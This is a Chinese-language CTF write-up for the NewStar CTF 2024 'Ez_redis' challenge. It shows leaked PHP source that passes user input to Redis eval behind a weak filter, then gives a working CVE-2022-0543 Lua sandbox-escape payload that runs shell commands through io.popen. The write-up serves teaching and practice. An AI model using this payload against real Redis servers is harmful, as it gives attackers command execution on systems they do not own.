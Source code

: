 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ez_redis

考了个 Redis 命令执⾏以及其历史漏洞

![redis 语法示例](/assets/images/wp/2024/week5/ez_redis_1.png)

在这里其实给出了示例，结合题目不难发现就是个 Redis 语法

如果你有信息收集意识的话还会发现有源码泄露，访问 `/www.zip` 即可

关键点在：

```php
<?php
if(isset($_POST['eval'])){
    $cmd = $_POST['eval'];
    if(preg_match("/set|php/i", $cmd))
    {
        $cmd = 'return "u are not newstar";';
    }

    $example = new Redis();
    $example->connect($REDIS_HOST);
    $result = json_encode($example->eval($cmd));

    echo '<h1 class="subtitle">结果</h1>';
    echo "<pre>$result</pre>";
}
?>
```

搜索 Redis 常⽤利⽤⽅法，发现如果过滤了 `set` `php`，那么我们很难通过写 webshell，写⼊计划任务、主从复制来进行 getshell

于是我们搜索⼀下 Redis 5 的历史漏洞

发现 CVE-2022-0543 值得⼀试: [Redis Lua 沙盒绕过命令执行（CVE-2022-0543）](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md)

于是我们得到了⼀个 payload:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

由于我们⽹站执⾏的是 redis 命令

于是去掉外⾯的 eval 即可

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res
```

![获取到 flag](/assets/images/wp/2024/week5/ez_redis_2.png)

